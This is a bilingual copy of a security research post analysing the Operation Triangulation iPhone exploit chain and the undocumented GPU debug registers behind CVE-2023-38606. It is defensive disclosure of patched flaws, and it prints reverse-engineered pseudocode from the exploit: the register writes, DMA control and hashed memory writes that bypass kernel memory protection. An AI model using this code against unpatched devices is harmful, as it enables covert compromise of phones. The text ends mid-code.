






# 操作三角测量：最后的（硬件）之谜|安全列表

Today, on December 27, 2023, we ([Boris Larin](https://twitter.com/oct0xor), [Leonid Bezvershenko](https://twitter.com/bzvr_), and [Georgy Kucherin](https://twitter.com/kucher1n)) delivered a presentation, titled, “Operation Triangulation: What You Get When Attack iPhones of Researchers”, at the 37th Chaos Communication Congress (37C3), held at Congress Center Hamburg. The presentation summarized the results of our long-term research into Operation Triangulation, conducted with our colleagues, [Igor Kuznetsov](https://twitter.com/2igosha), [Valentin Pashkov](https://securelist.com/author/valentinpashkov/), and [Mikhail Vinogradov](https://securelist.com/author/mikhailvinogradov/).  
今天，2023年12月27日，我们（Boris Larin，Leonid Bezvershenko和Georgy Kucherin）在汉堡会议中心举行的第37届混沌通信大会（37C3）上发表了题为“三角测量操作：攻击研究人员的iPhone时你会得到什么”的演讲。该报告总结了我们与同事Igor Kuznetsov，Valentin Pashkov和Mikhail Vinogradov对三角测量行动进行的长期研究结果。

This presentation was also the first time we had publicly disclosed the details of all exploits and vulnerabilities that were used in the attack. We discover and analyze new exploits and attacks using these on a daily basis, and we have discovered and reported more than thirty in-the-wild zero-days in Adobe, Apple, Google, and Microsoft products, but this is definitely the most sophisticated attack chain we have ever seen.  
这次演示也是我们第一次公开披露攻击中使用的所有漏洞和漏洞的细节。我们每天都在发现和分析新的漏洞和攻击，我们已经发现并报告了30多个Adobe、Apple、Google和Microsoft产品中的零日漏洞，但这绝对是我们见过的最复杂的攻击链。

## Operation Triangulation’ attack chain  
三角定位行动“攻击链

Here is a quick rundown of this 0-click iMessage attack, which used four zero-days and was designed to work on iOS versions up to iOS 16.2.  
以下是这种0-click iMessage攻击的简要介绍，该攻击使用了四个零日，旨在适用于iOS 16.2之前的iOS版本。

-   Attackers send a malicious iMessage attachment, which the application processes without showing any signs to the user.  
    攻击者发送恶意的iMessage附件，应用程序在不向用户显示任何迹象的情况下处理该附件。
-   This attachment exploits the remote code execution vulnerability [CVE-2023-41990](https://support.apple.com/en-us/HT213842) in the undocumented, Apple-only ADJUST TrueType font instruction. This instruction had existed since the early nineties before a patch removed it.  
    此附件利用了未记录的、仅限Apple的ADJUST TrueType字体指令中的远程代码执行漏洞CVE-2023-41990。这条指令从90年代初就存在了，直到一个补丁将其删除。
-   It uses return/jump oriented programming and multiple stages written in the NSExpression/NSPredicate query language, patching the JavaScriptCore library environment to execute a privilege escalation exploit written in JavaScript.  
    它使用面向返回/跳转的编程和用NSExpression/NSPerdicate查询语言编写的多个阶段，修补JavaScriptCore库环境以执行用JavaScript编写的权限提升漏洞。
-   This JavaScript exploit is obfuscated to make it completely unreadable and to minimize its size. Still, it has around 11,000 lines of code, which are mainly dedicated to JavaScriptCore and kernel memory parsing and manipulation.  
    此JavaScript漏洞被模糊处理，使其完全不可读，并最小化其大小。尽管如此，它仍然有大约11，000行代码，主要用于JavaScriptCore和内核内存解析和操作。
-   It exploits the JavaScriptCore debugging feature DollarVM ($vm) to gain the ability to manipulate JavaScriptCore’s memory from the script and execute native API functions.  
    它利用JavaScriptCore调试功能DollarVM（$vm）来获得从脚本操作JavaScriptCore内存和执行本机API函数的能力。
-   It was designed to support both old and new iPhones and included a Pointer Authentication Code (PAC) bypass for exploitation of recent models.  
    它旨在支持新旧iPhone，并包括指针验证码（PAC）旁路，用于利用最新型号。
-   It uses the integer overflow vulnerability [CVE-2023-32434](https://support.apple.com/en-us/103837) in XNU’s memory mapping syscalls (mach\_make\_memory\_entry and vm\_map) to obtain read/write access to the entire physical memory of the device at user level.  
    它利用XNU内存映射系统调用（mach\_make\_memory\_entry和vm\_map）中的整数溢出漏洞CVE-2023-32434，在用户级别获得对设备整个物理内存的读/写访问。
-   It uses hardware memory-mapped I/O (MMIO) registers to bypass the Page Protection Layer (PPL). This was mitigated as [CVE-2023-38606](https://support.apple.com/en-us/HT213841).  
    它使用硬件内存映射I/O（MMIO）寄存器来绕过页面保护层（PPL）。这已缓解为CVE-2023-38606。
-   After exploiting all the vulnerabilities, the JavaScript exploit can do whatever it wants to the device including running spyware, but the attackers chose to: (a) launch the IMAgent process and inject a payload that clears the exploitation artefacts from the device; (b) run a Safari process in invisible mode and forward it to a web page with the next stage.  
    在利用所有漏洞后，JavaScript漏洞利用可以对设备执行任何操作，包括运行间谍软件，但攻击者选择：（a）启动IMAgent进程并注入有效负载，从设备中清除利用伪品;（b）以不可见模式运行Safari进程并将其转发到下一阶段的网页。
-   The web page has a script that verifies the victim and, if the checks pass, receives the next stage: the Safari exploit.  
    该网页有一个验证受害者的脚本，如果检查通过，则接收下一阶段：Safari漏洞利用。
-   The Safari exploit uses [CVE-2023-32435](https://support.apple.com/en-us/HT213676) to execute a shellcode.  
    Safari漏洞使用CVE-2023-32435来执行shellcode。
-   The shellcode executes another kernel exploit in the form of a Mach object file. It uses the same vulnerabilities: [CVE-2023-32434](https://support.apple.com/en-us/103837) and [CVE-2023-38606](https://support.apple.com/en-us/HT213841). It is also massive in terms of size and functionality, but completely different from the kernel exploit written in JavaScript. Certain parts related to exploitation of the above-mentioned vulnerabilities are all that the two share. Still, most of its code is also dedicated to parsing and manipulation of the kernel memory. It contains various post-exploitation utilities, which are mostly unused.  
    shellcode以Mach对象文件的形式执行另一个内核漏洞。它使用相同的漏洞：CVE-2023-32434和CVE-2023-38606。它在大小和功能方面也很庞大，但与用JavaScript编写的内核漏洞完全不同。与利用上述漏洞有关的某些部分是两者共有的。尽管如此，它的大部分代码还是专用于解析和操作内核内存。它包含各种开发后的实用程序，这些程序大多未使用。
-   The exploit obtains root privileges and proceeds to execute other stages, which load spyware. We covered these stages in our previous [posts](https://securelist.com/trng-2023/).  
    该漏洞获得root权限并继续执行加载间谍软件的其他阶段。我们在以前的文章中介绍了这些阶段。

We are almost done reverse-engineering every aspect of this attack chain, and we will be releasing a series of articles next year detailing each vulnerability and how it was exploited.  
我们几乎完成了对这个攻击链的每个方面的逆向工程，我们将在明年发布一系列文章，详细介绍每个漏洞以及如何利用它。

However, there are certain aspects to one particular vulnerability that we have not been able to fully understand.  
然而，我们还未能充分了解一个特定脆弱性的某些方面。

## The mystery and the CVE-2023-38606 vulnerability  
CVE-2023-38606漏洞之谜

What we want to discuss is related to the vulnerability that has been mitigated as [CVE-2023-38606](https://support.apple.com/en-us/HT213841). Recent iPhone models have additional hardware-based security [protection](https://support.apple.com/guide/security/operating-system-integrity-sec8b776536b/web) for sensitive regions of the kernel memory. This protection prevents attackers from obtaining full control over the device if they can read and write kernel memory, as achieved in this attack by exploiting [CVE-2023-32434](https://support.apple.com/en-us/103837). We discovered that to bypass this hardware-based security protection, the attackers used another hardware feature of Apple-designed [SoCs](https://en.wikipedia.org/wiki/System_on_a_chip).  
我们想要讨论的是与已缓解为CVE-2023-38606的漏洞相关的问题。最新的iPhone型号为内核内存的敏感区域提供了额外的基于硬件的安全保护。如果攻击者可以读取和写入内核内存，则此保护可防止攻击者获得对设备的完全控制，如此攻击通过利用CVE-2023-32434实现的那样。我们发现，为了绕过这种基于硬件的安全保护，攻击者使用了Apple设计的SoC的另一个硬件功能。

If we try to describe this feature and how the attackers took advantage of it, it all comes down to this: they are able to write data to a certain physical address while bypassing the hardware-based memory protection by writing the data, destination address, and data hash to unknown hardware registers of the chip unused by the firmware.  
如果我们试图描述这个功能以及攻击者如何利用它，那么这一切都归结为：他们能够将数据写入特定的物理地址，同时通过将数据，目的地地址和数据散列写入固件未使用的芯片的未知硬件寄存器来绕过基于硬件的内存保护。

Our guess is that this unknown hardware feature was most likely intended to be used for debugging or testing purposes by Apple engineers or the factory, or that it was included by mistake. Because this feature is not used by the firmware, we have no idea how attackers would know how to use it.  
我们的猜测是，这个未知的硬件功能很可能是苹果工程师或工厂用于调试或测试目的，或者它是错误的。由于固件不使用此功能，因此我们不知道攻击者如何知道如何使用它。

We are publishing the technical details, so that other iOS security researchers can confirm our findings and come up with possible explanations of how the attackers learned about this hardware feature.  
我们正在发布技术细节，以便其他iOS安全研究人员可以证实我们的发现，并对攻击者如何了解此硬件功能提出可能的解释。

## Technical details 技术细节

Various peripheral devices available in the SoC may provide special hardware registers that can be used by the CPU to operate these devices. For this to work, these hardware registers are mapped to the memory accessible by the CPU and are known as “[memory-mapped I/O (MMIO)](https://en.wikipedia.org/wiki/Memory-mapped_I/O_and_port-mapped_I/O)“.  
SoC中可用的各种外围设备可以提供可以由CPU用来操作这些设备的特殊硬件寄存器。为了实现这一点，这些硬件寄存器被映射到CPU可访问的内存，称为“内存映射I/O（MMIO）”。

Address ranges for MMIOs of peripheral devices in Apple products (iPhones, Macs, and others) are stored in a special file format: [DeviceTree](https://www.theiphonewiki.com/wiki/DeviceTree). Device tree files can be extracted from the firmware, and their contents can be viewed with the help of the [dt](https://github.com/Siguza/dt) utility.  
Apple产品（iPhone、Mac等）中外围设备的MMIO地址范围以一种特殊的文件格式存储：DeviceTree。可以从固件中提取设备树文件，并且可以在dt实用程序的帮助下查看其内容。

*Example of how MMIO ranges are stored in the device tree  
MMIO范围如何存储在设备树中的示例*

For example, in this screenshot, you can see the start (0x210f00000) and the size (0x50000) of the acc-impl MMIO range for cpu0.  
例如，在此屏幕截图中，您可以看到cpu 0的acc-impl MMIO范围的开始（0x 210 f00000）和大小（0x 50000）。

While analyzing the exploit used in the Operation Triangulation attack, I discovered that most of the MMIOs used by the attackers to bypass the hardware-based kernel memory protection do not belong to any MMIO ranges defined in the device tree. The exploit targets Apple A12–A16 Bionic SoCs, targeting unknown MMIO blocks of registers that are located at the following addresses: 0x206040000, 0x206140000, and 0x206150000.  
在分析Operation Triangulation攻击中使用的漏洞时，我发现攻击者用于绕过基于硬件的内核内存保护的大多数MMIO不属于设备树中定义的任何MMIO范围。该漏洞针对Apple A12-A16 Bionic SoC，目标是位于以下地址的未知MMIO寄存器块：0x 206040000，0x 206140000和0x 206150000。

The prompted me to try something. I checked different device tree files for different devices and different firmware files: no luck. I checked publicly available source code: no luck. I checked the kernel images, kernel extensions, iboot, and coprocessor firmware in search of a direct reference to these addresses: nothing.  
这促使我尝试一些东西。我检查了不同设备和不同固件文件的不同设备树文件：没有运气。我检查了公开的源代码：没有运气。我检查了内核映像、内核扩展、iboot和协处理器固件，以寻找对这些地址的直接引用：没有。

How could it be that that the exploit used MMIOs that were not used by the firmware? How did the attackers find out about them? What peripheral device(s) do these MMIO addresses belong to?  
怎么可能是这个漏洞使用了固件没有使用的MMIO？袭击者是如何发现他们的？这些MMIO地址属于哪些外围设备？

It occurred to me that I should check what other known MMIOs were located in the area close to these unknown MMIO blocks. That approach was successful.  
我突然想到，我应该检查在这些未知MMIO块附近的区域中还有哪些其他已知的MMIO。这一做法取得了成功。

Let us take a look at a dump of the device tree entry for gfx-asc, which is the GPU coprocessor.  
让我们来看看gfx-asc的设备树条目的转储，gfx-asc是GPU协处理器。

*Dump of the device tree entry for gfx-asc  
gfx-asc的设备树条目转储*

It has two MMIO ranges: 0x206400000–0x20646C000 and 0x206050000–0x206050008. Let us take a look at how they correlate with the regions used by the exploit.  
它有两个MMIO范围：0x 206400000 - 0x 20646 C 000和0x 206050000 - 0x 206050008。让我们来看看它们如何与漏洞利用所使用的区域相关联。

*Correlation of the gfx-asc MMIO ranges and the addresses used by the exploit  
gfx-asc MMIO范围和漏洞利用所使用的地址的相关性*

To be more precise, the exploit uses the following unknown addresses: 0x206040000, 0x206140008, 0x206140108, 0x206150020, 0x206150040, and 0x206150048. We can see that most of these are located in the area between the two gfx-asc regions, and the remaining one is located close to the beginning of the first gfx-asc region. This suggested that all these MMIO registers most likely belonged to the GPU coprocessor!  
更准确地说，该漏洞使用了以下未知地址：0x 206040000、0x 206140008、0x 206140108、0x 206150020、0x 206150040和0x 206150048。我们可以看到，其中大部分位于两个gfx-asc区域之间的区域，剩下的一个位于第一个gfx-asc区域的开始处。这说明，这些MMIO寄存器很可能都属于GPU协处理器！

After that, I took a closer look at the exploit and found one more thing that confirmed my theory. The first thing the exploit does during initialization is writing to some other MMIO register, which is located at a different address for each SoC.  
在那之后，我仔细研究了这个漏洞，发现还有一件事证实了我的理论。在初始化过程中，利用漏洞的第一件事是写入其他MMIO寄存器，这些寄存器位于每个SoC的不同地址。

if (cpuid == 0x8765EDEA): # CPUFAMILY\_ARM\_EVEREST\_SAWTOOTH (A16) base = 0x23B700408 command = 0x1F0023FF elif (cpuid == 0xDA33D83D): # CPUFAMILY\_ARM\_AVALANCHE\_BLIZZARD (A15) base = 0x23B7003C8 command = 0x1F0023FF elif (cpuid == 0x1B588BB3): # CPUFAMILY\_ARM\_FIRESTORM\_ICESTORM (A14) base = 0x23B7003D0 command = 0x1F0023FF elif (cpuid == 0x462504D2): # CPUFAMILY\_ARM\_LIGHTNING\_THUNDER (A13) base = 0x23B080390 command = 0x1F0003FF elif (cpuid == 0x07D34B9F): # CPUFAMILY\_ARM\_VORTEX\_TEMPEST (A12) base = 0x23B080388 command = 0x1F0003FF if ((~read\_dword(base) & 0xF) != 0): write\_dword(base, command) while(True): if ((~read\_dword(base) & 0xF) == 0): break

|     |     |     |     |     |
| --- | --- | --- | --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25 | if (cpuid \== 0x8765EDEA):   \# CPUFAMILY\_ARM\_EVEREST\_SAWTOOTH (A16)      base \= 0x23B700408      command \= 0x1F0023FF  elif (cpuid \== 0xDA33D83D): \# CPUFAMILY\_ARM\_AVALANCHE\_BLIZZARD (A15)      base \= 0x23B7003C8      command \= 0x1F0023FF  elif (cpuid \== 0x1B588BB3): \# CPUFAMILY\_ARM\_FIRESTORM\_ICESTORM (A14)      base \= 0x23B7003D0      command \= 0x1F0023FF  elif (cpuid \== 0x462504D2): \# CPUFAMILY\_ARM\_LIGHTNING\_THUNDER (A13)      base \= 0x23B080390      command \= 0x1F0003FF  elif (cpuid \== 0x07D34B9F): \# CPUFAMILY\_ARM\_VORTEX\_TEMPEST (A12)      base \= 0x23B080388      command \= 0x1F0003FF  if ((~read\_dword(base) & 0xF) !\= 0):      write\_dword(base, command)      while(True):          if ((~read\_dword(base) & 0xF) \== 0):              break |

*Pseudocode for the GFX power manager control code from the exploit  
GFX电源管理器控制代码的伪代码*

With the help of the device tree and Siguza’s utility, [pmgr](https://github.com/Siguza/dt), I was able to discover that all these addresses corresponded to the GFX register in the power manager MMIO range.  
在设备树和Siguza的实用程序pmgr的帮助下，我发现所有这些地址都对应于电源管理器MMIO范围内的GFX寄存器。

Finally, I obtained a third confirmation when I decided to try and access the registers located in these unknown regions. Almost instantly, the GPU coprocessor panicked with a message of, “GFX SERROR Exception class=0x2f (SError interrupt), IL=1, iss=0 – power(1)”.  
最后，当我决定尝试访问位于这些未知区域的寄存器时，我得到了第三个确认。GPU协处理器几乎立即死机，并显示消息“GFX SERROR Exception class= 0x 2f（SError interrupt），IL=1，iss=0 - power（1）"。

This way, I was able to confirm that all these unknown MMIO registers used for the exploitation belonged to the GPU coprocessor. This motivated me to take a deeper look at its firmware, which is also written in ARM and unencrypted, but I could not find anything related to these registers in there.  
通过这种方式，我能够确认所有这些用于攻击的未知MMIO寄存器都属于GPU协处理器。这促使我更深入地研究它的固件，它也是用ARM编写的，没有加密，但我在那里找不到任何与这些寄存器相关的东西。

I decided to take a closer look at how the exploit operated these unknown MMIO registers. The register 0x206040000 stands out from all the others because it is located in a separate MMIO block from all the other registers. It is touched only during the initialization and finalization stages of the exploit: it is the first register to be set during initialization and the last one, during finalization. From my experience, it was clear that the register either enabled/disabled the hardware feature used by the exploit or controlled interrupts. I started to follow the interrupt route, and fairly soon, I was able to recognize this unknown register, 0x206040000, and also discovered what exactly was mapped to the address range of 0x206000000–0x206050000. Below, you can see the reverse-engineered code of the exploit that I was able to recognize. I have given it a proper name.  
我决定仔细看看这个漏洞是如何操作这些未知的MMIO寄存器的。寄存器0x 206040000与所有其他寄存器不同，因为它位于与所有其他寄存器不同的MMIO块中。它只在漏洞利用的初始化和终结阶段被触及：它是初始化期间设置的第一个寄存器，也是终结期间设置的最后一个寄存器。根据我的经验，很明显，寄存器要么启用/禁用漏洞利用所使用的硬件功能，要么控制中断。我开始沿着中断路线走，很快，我就能够识别这个未知的寄存器0x 206040000，并且还发现了映射到0x 206000000 - 0x 206050000地址范围的确切内容。下面，你可以看到我能够识别的漏洞的反向工程代码。我给它起了一个恰当的名字。

def ml\_dbgwrap\_halt\_cpu(): value = read\_qword(0x206040000) if ((value & 0x90000000) != 0): return write\_qword(0x206040000, value | 0x80000000) while (True): if ((read\_qword(0x206040000) & 0x10000000) != 0): break def ml\_dbgwrap\_unhalt\_cpu(): value = read\_qword(0x206040000) value = (value & 0xFFFFFFFF2FFFFFFF) | 0x40000000 write\_qword(0x206040000, value) while (True): if ((read\_qword(0x206040000) & 0x10000000) == 0): break

|     |     |     |     |     |
| --- | --- | --- | --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23 | def ml\_dbgwrap\_halt\_cpu():      value \= read\_qword(0x206040000)      if ((value & 0x90000000) !\= 0):          return      write\_qword(0x206040000, value \| 0x80000000)      while (True):          if ((read\_qword(0x206040000) & 0x10000000) !\= 0):              break  def ml\_dbgwrap\_unhalt\_cpu():      value \= read\_qword(0x206040000)      value \= (value & 0xFFFFFFFF2FFFFFFF) \| 0x40000000      write\_qword(0x206040000, value)      while (True):          if ((read\_qword(0x206040000) & 0x10000000) \== 0):              break |

*Pseudocode for the usage of the, 0x206040000 register by the exploit  
利用漏洞使用0x206040000寄存器的伪代码*

I was able to match the ml\_dbgwrap\_halt\_cpu function from the pseudocode above to a function with the same name in the dbgwrap.c file of the XNU source code. This file contains code for working with the ARM [CoreSight](https://developer.arm.com/Architectures/CoreSight%20Architecture) MMIO debug registers of the main CPU. The source code states that there are four CoreSight-related MMIO regions, named ED, CTI, PMU, and UTT. Each  occupies 0x10000 bytes, and they are all located next to one another. The ml\_dbgwrap\_halt\_cpu function uses the UTT region, and the source code states that, unlike the other three, it does not come from ARM, but is a proprietary Apple feature that was added just for convenience.  
我能够将上面伪代码中的ml\_dbgwrap\_halt\_cpu函数与XNU源代码的dbgwrap. c文件中的同名函数进行匹配。此文件包含用于使用主CPU的ARM CoreSight MMIO调试寄存器的代码。源代码指出有四个与CoreSight相关的MMIO区域，分别命名为ED、CTI、PMU和UTT。每一个都占用0x 10000字节，并且它们都彼此相邻。ml\_dbgwrap\_halt\_cpu函数使用UTT区域，源代码声明，与其他三个不同，它不是来自ARM，而是一个专有的Apple功能，只是为了方便而添加的。

I was able to confirm that 0x206000000–0x206050000 was indeed a block of CoreSight MMIO debug registers for the GPU coprocessor by writing ARM\_DBG\_LOCK\_ACCESS\_KEY to the corresponding location. Each core of the main CPU has its own block of CoreSight MMIO debug registers, but unlike the GPU coprocessor, their addresses can be found in the device tree.  
通过将ARM\_DBG\_ACCESS\_KEY写入相应的位置，我能够确认0x 206000000 - 0x 206050000确实是GPU协处理器的CoreSight MMIO调试寄存器块。主CPU的每个核心都有自己的CoreSight MMIO调试寄存器块，但与GPU协处理器不同的是，它们的地址可以在设备树中找到。

It is also interesting that the author(s) of this exploit knew how to use the proprietary Apple UTT region to unhalt the CPU: this code is not part of the XNU source code. Perhaps it is fair to say that this could easily be found out through experimentation.  
同样有趣的是，这个漏洞的作者知道如何使用专有的Apple UTT区域来恢复CPU：此代码不是XNU源代码的一部分。也许可以公平地说，这很容易通过实验发现。

Something that cannot be found that way is what the attackers did with the registers in the second unknown region. I am not sure what blocks of MMIO debug registers are located there, or how the attackers found out how to use them if they were not used by the firmware.  
无法以这种方式找到的是攻击者对第二个未知区域中的寄存器所做的事情。我不确定MMIO调试寄存器的哪些块位于那里，或者如果固件没有使用它们，攻击者如何发现如何使用它们。

Let us look at the remaining unknown registers used by the exploit.  
让我们看看漏洞利用所使用的其余未知寄存器。

The registers 0x206140008 and 0x206140108 control enabling/disabling and running the hardware feature used by the exploit.  
寄存器0x 206140008和0x 206140108控制启用/禁用和运行漏洞利用所使用的硬件功能。

def dma\_ctrl\_1(): ctrl = 0x206140108 value = read\_qword(ctrl) write\_qword(ctrl, value | 0x8000000000000001) sleep(1) while ((~read\_qword(ctrl) & 0x8000000000000001) != 0): sleep(1) def dma\_ctrl\_2(flag): ctrl = 0x206140008 value = read\_qword(ctrl) if (flag): if ((value & 0x1000000000000000) == 0): value = value | 0x1000000000000000 write\_qword(ctrl, value) else: if ((value & 0x1000000000000000) != 0): value = value & ~0x1000000000000000 write\_qword(ctrl, value) def dma\_ctrl\_3(value): ctrl = 0x206140108 value = value | 0x8000000000000000 write\_qword(ctrl, read\_qword(ctrl) & value) while ((read\_qword(ctrl) & 0x8000000000000001) != 0): sleep(1) def dma\_init(original\_value\_0x206140108): dma\_ctrl\_1() dma\_ctrl\_2(False) dma\_ctrl\_3(original\_value\_0x206140108) def dma\_done(original\_value\_0x206140108): dma\_ctrl\_1() dma\_ctrl\_2(True) dma\_ctrl\_3(original\_value\_0x206140108)

|     |     |     |     |     |
| --- | --- | --- | --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37  38  39  40  41  42  43  44  45  46  47  48 | def dma\_ctrl\_1():      ctrl \= 0x206140108      value \= read\_qword(ctrl)      write\_qword(ctrl, value \| 0x8000000000000001)      sleep(1)      while ((~read\_qword(ctrl) & 0x8000000000000001) !\= 0):          sleep(1)  def dma\_ctrl\_2(flag):      ctrl \= 0x206140008      value \= read\_qword(ctrl)      if (flag):          if ((value & 0x1000000000000000) \== 0):              value \= value \| 0x1000000000000000              write\_qword(ctrl, value)      else:          if ((value & 0x1000000000000000) !\= 0):              value \= value & ~0x1000000000000000              write\_qword(ctrl, value)  def dma\_ctrl\_3(value):      ctrl \= 0x206140108      value \= value \| 0x8000000000000000      write\_qword(ctrl, read\_qword(ctrl) & value)      while ((read\_qword(ctrl) & 0x8000000000000001) !\= 0):          sleep(1)  def dma\_init(original\_value\_0x206140108):      dma\_ctrl\_1()      dma\_ctrl\_2(False)      dma\_ctrl\_3(original\_value\_0x206140108)  def dma\_done(original\_value\_0x206140108):      dma\_ctrl\_1()      dma\_ctrl\_2(True)      dma\_ctrl\_3(original\_value\_0x206140108) |

*Pseudocode for the usage of the* 0x206140008 and 0x206140108 *registers by the exploit*  
利用漏洞使用0x206140008和0x206140108寄存器的伪代码

The register 0x206150020 is used only for Apple A15/A16 Bionic SoCs. It is set to 1 during the initialization stage of the exploit, and to its original value, during the finalization stage.  
寄存器0x 206150020仅用于Apple A15/A16 Bionic SoC。它在漏洞利用的初始化阶段被设置为1，在终结阶段被设置为原始值。

The register 0x206150040 is used to store some flags and the lower half of the destination physical address.  
寄存器0x 206150040用于存储一些标志和目标物理地址的下半部分。

The last register, 0x206150048, is used for storing the data that needs to be written and the upper half of the destination physical address, bundled together with the data hash and another value (possibly a command). This hardware feature writes the data in aligned blocks of 0x40 bytes, and everything should be written to the 0x206150048 register in nine sequential writes.  
最后一个寄存器0x 206150048用于存储需要写入的数据和目标物理地址的上半部分，与数据散列和另一个值（可能是命令）捆绑在一起。此硬件功能将数据写入0x 40字节的对齐块中，所有内容应在9次连续写入中写入0x 206150048寄存器。

if (cpuid == 0x8765EDEA): # CPUFAMILY\_ARM\_EVEREST\_SAWTOOTH (A16) i = 8 mask = 0x7FFFFFF elif (cpuid == 0xDA33D83D): # CPUFAMILY\_ARM\_AVALANCHE\_BLIZZARD (A15) i = 8 mask = 0x3FFFFF elif (cpuid == 0x1B588BB3): # CPUFAMILY\_ARM\_FIRESTORM\_ICESTORM (A14) i = 0x28 mask = 0x3FFFFF elif (cpuid == 0x462504D2): # CPUFAMILY\_ARM\_LIGHTNING\_THUNDER (A13) i = 0x28 mask = 0x3FFFFF elif (cpuid == 0x07D34B9F): # CPUFAMILY\_ARM\_VORTEX\_TEMPEST (A12) i = 0x28 mask = 0x3FFFFF dma\_init(original\_value\_0x206140108) hash1 = calculate\_hash(data) hash2 = calculate\_hash(data+0x20) write\_qword(0x206150040, 0x2000000 | (phys\_addr & 0x3FC0)) pos = 0 while (pos < 0x40): write\_qword(0x206150048, read\_qword(data + pos)) pos += 8 phys\_addr\_upper = ((((phys\_addr >> 14) & mask) << 18) & 0x3FFFFFFFFFFFF) value = phys\_addr\_upper | (hash1 << i) | (hash2 << 50) | 0x1F write\_qword(0x206150048, value) dma\_done(original\_value\_0x206140108)

|     |     |     |     |     |
| --- | --- | --- | --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37 | if (cpuid \== 0x8765EDEA):   \# CPUFAMILY\_ARM\_EVEREST\_SAWTOOTH (A16)      i \= 8      mask \= 0x7FFFFFF  elif (cpuid \== 0xDA33D83D): \# CPUFAMILY\_ARM\_AVALANCHE\_BLIZZARD (A15)      i \= 8      mask \= 0x3FFFFF  elif (cpuid \== 0x1B588BB3): \# CPUFAMILY\_ARM\_FIRESTORM\_ICESTORM (A14)      i \= 0x28      mask \= 0x3FFFFF  elif (cpuid \== 0x462504D2): \# CPUFAMILY\_ARM\_LIGHTNING\_THUNDER (A13)      i \= 0x28      mask \= 0x3FFFFF  elif (cpuid \== 0x07D34B9F): \# CPUFAMILY\_ARM\_VORTEX\_TEMPEST (A12)      i \= 0x28      mask \= 0x3FFFFF  dma\_init(original\_value\_0x206140108)  hash1 \= calculate\_hash(data)  hash2 \= calculate\_hash(data+0x20)  write\_qword(0x206150040, 0x2000000 \| (phys\_addr & 0x3FC0))  pos \= 0  while (pos < 0x40):      write\_qword(0x206150048, read\_qword(data + pos))      pos += 8  phys\_addr\_upper \= ((((phys\_addr \>\> 14) & mask) << 18) 